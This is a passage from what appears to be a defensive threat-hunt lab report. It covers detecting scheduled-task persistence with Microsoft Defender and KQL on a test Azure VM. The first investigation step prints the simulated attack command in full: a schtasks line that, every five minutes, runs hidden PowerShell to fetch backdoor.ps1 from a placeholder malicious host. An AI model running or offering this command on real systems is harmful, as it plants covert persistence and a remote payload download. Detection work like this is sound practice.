 <img src="https://github.com/user-attachments/assets/a5d72164-2ca6-4836-a5c3-ff2b4e183f46" width="400"/>


# Threat Hunt Report: Suspicious Scheduled Task Creation  
Suspicious Scheduled Task Creation Detected on Workstation: **vm-test-zedd**

## Platforms and Tools Used
- **Microsoft Azure** (Virtual Machine: `vm-hunt-task01`)
- **Microsoft Defender for Endpoint** (EDR telemetry)
- **Kusto Query Language (KQL)** (for hunting in Advanced Hunting portal)
- **Windows Task Scheduler** (used in attack simulation)
- **PowerShell** (to simulate the attack and drop artifacts)

---

## Scenario Overview


The security team suspects that a user has attempted to establish persistence on a lab machine by creating scheduled tasks using schtasks.exe. This is often used by attackers post-exploitation to maintain access or automate execution of payloads.


---

## IoC-Based Threat Hunting Plan

- **Search `DeviceProcessEvents`** for executions of `schtasks.exe` with `create`, `add`, or `/tn` (task name) arguments, which indicate scheduled task creation.
- **Review `DeviceRegistryEvents`** for persistence artifacts under the `TaskCache` registry path:
  - `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks`
- **Check `DeviceFileEvents`** for any suspicious script files (e.g., `.ps1`, `.bat`, `.vbs`) dropped near the time of task creation, especially in folders like `Desktop`, `Startup`, or `Temp`.
- **Correlate `DeviceProcessEvents`** with PowerShell or script execution tied to the task trigger to determine if the task ran successfully.


---

## Investigation Steps

### 📁 1. Scheduled Task Creation Detected

On May 26, 2025 at 6:31 PM (UTC-5), user labuser on the device vm-test-zedd executed schtasks.exe to create a scheduled task named "Backdoor Update Check". The task was configured to run every 5 minutes and execute a hidden PowerShell command that downloads a file named backdoor.ps1 to the user's desktop.

**Command Executed:**
```
schtasks.exe /create /tn "Backdoor Update Check" /tr "powershell.exe -WindowStyle Hidden -Command Invoke-WebRequest -Uri http://malicious-site.com/backdoor.ps1 -OutFile C:\Users\labuser\Desktop\backdoor.ps1" /sc minute /mo 5 /f
```
